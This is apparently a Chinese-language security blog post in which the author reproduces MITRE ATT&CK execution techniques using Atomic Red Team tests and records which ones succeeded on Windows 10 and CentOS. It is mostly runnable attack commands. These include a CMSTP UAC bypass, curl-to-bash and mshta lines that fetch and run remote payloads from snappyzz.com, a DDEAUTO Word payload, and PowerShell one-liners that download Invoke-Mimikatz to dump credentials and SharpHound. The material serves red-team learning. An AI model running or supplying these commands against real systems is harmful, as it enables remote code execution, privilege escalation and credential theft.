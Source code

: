 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之execution
excerpt: "跟着ATT&CK学安全之execution"
categories: [ATT&CK]
comments: true
---
```

#### T1191 - CMSTP
Microsoft Connection Manager Profile Installer (CMSTP.exe)是一个安装连接管理配置的应用程序.它允许接受一个INF文件作为参数,安装一个服务,来进行远程连接.红队可用CMSTP.exe和inf文件来生成恶意命令.CMSTP.exe现在拒绝从远程加载dll,但由于CMSTP.exe是一个合法的程序,且有微软的签名,这个运行仍然可以绕过基于白名单和AppLocker的防御.

CMSTP.exe也可以通过COM接口绕过UAC来执行二进制文件

关于用户账户控制(UAC):UAC 会阻止未经授权应用程序的自动安装，防止无意中对系统设置进行更改。例如选择总是通知将会:
- 当程序试图安装软件或对电脑做出更改时通知你。
- 当你对 Windows 设置进行更改时通知你。
- 冻结其他任务，直到你做出响应。
##### 测试1 CMSTP 运行远程脚本
平台:Windows.运行方式如下`cmstp.exe /s T1191.inf`

window10运行成功
##### 测试2 CMSTP运行绕过UAC
红队可通过向inf文件中植入RunPreSetupCommandsSection来调用cmd.exe,来绕过UAC
```bash
cmstp.exe /s T1191_uacbypass.inf /au
```
window10运行成功
#### T1059 - Command-Line Interface
这个没什么好说的,就是一个命令行运行文件

平台:Linux,运行如下命令
```bash
bash -c "curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059/echo-art-fish.sh | bash"
或者
bash -c "wget --quiet -O - http://snappyzz.com/echo-art-fish.sh | bash"
```
centos上运行成功


#### T1173 - Dynamic Data Exchange
关于动态数据交换（DDE, Dynamic Data Exchange）:DDE是一种动态数据交换机制（Dynamic Data Exchange，DDE）。使用DDE通讯需要两个Windows应用程序，其中一个作为服务器处理信息，另外一个作为客户机从服务器获得信息。客户机应用程序向当前所激活的服务器应用程序发送一条消息请求信息，服务器应用程序根据该信息作出应答，从而实现两个程序之间的数据交换。红队可用DDE来运行二进制命令,微软的文档可以用来放入DDE命令

新建一个Word文档，通过Ctrl+F9添加一个域，然后修改域代码为：
```bash
DDEAUTO c:\windows\system32\cmd.exe "/k calc.exe" 
```
这个并没有复现成功
#### T1118 - InstallUtil
这个就是一个安装和卸载的组件
这个没有复现成功
##### 测试1 InstallUtil uninstall method call
#### T1170 - Mshta
Mshta.exe是用来运行Microsoft HTML Applications (HTA)的.HTA是一个独立的应用,使用的和浏览器同样的技术,但是独立与浏览器.红队和用它来运行Javascript 或者VBScript.它可以用来绕过白名单的防护,也可以绕过浏览器安全防护
##### 测试1 Mshta executes JavaScript Scheme Fetch Remote Payload With GetObject
```bash
mshta.exe javascript:a=(GetObject("script:http://snappyzz.com/mshta.sct")).Exec();close();
```
windows10上运行成功
##### 测试2 Mshta calls a local VBScript file to launch notepad.exe
```bash
mshta.exe vbscript:Execute("CreateObject(""Wscript.Shell"").Run(""C:\Windows\SysWOW64\calc.exe"")(window.close)")
```
windows10上运行成功
##### 测试3 Mshta executes VBScript to execute malicious command
运行本地的VB脚本通过powershell枚举用户
```bash
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file D:\pycharmproject\atomic-red-team-master\atomics\T1170\src\powershell.ps1"":close")
```
windows10上运行成功
##### 测试4 Mshta Executes Remote HTML Application (HTA)
```bash
mshta.exe http://snappyzz.com/T1170.hta
```
windows10上运行成功
#### T1086 - PowerShell
##### 测试1 下载Mimikatz并dump credentials
```bash
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://snappyzz.com/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
```
windows10上运行成功
##### 测试2 
下载Bloodhound并运行
```bash
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('http://snappyzz.com/SharpHound.ps1'); Invoke-BloodHound"
```
被win10防病毒拦下
未完待续

#### T1064 - Scripting
这个太简单了把
##### 测试1 在linux上运行脚本
```
sh -c "echo 'echo Hello from the Atomic Red Team' > /tmp/art.sh"
sh -c "echo 'ping -c 4 8.8.8.8' >> /tmp/art.sh"
chmod +x /tmp/art.sh
sh /tmp/art.sh
```
windows10上运行成功
##### 测试2 在windows上运行脚本
```
C:\Windows\system32\cmd.exe /Q /c echo #{command_to_execute} > #{script_to_create}
C:\Windows\system32\cmd.exe /Q /c #{script_to_create}
```
清除
```
del #{script_to_create}
```
windows10上运行成功
#### T1216 - Signed Script Proxy Execution
带有证书的脚本可以用来执行恶意文件
这个也未完待续


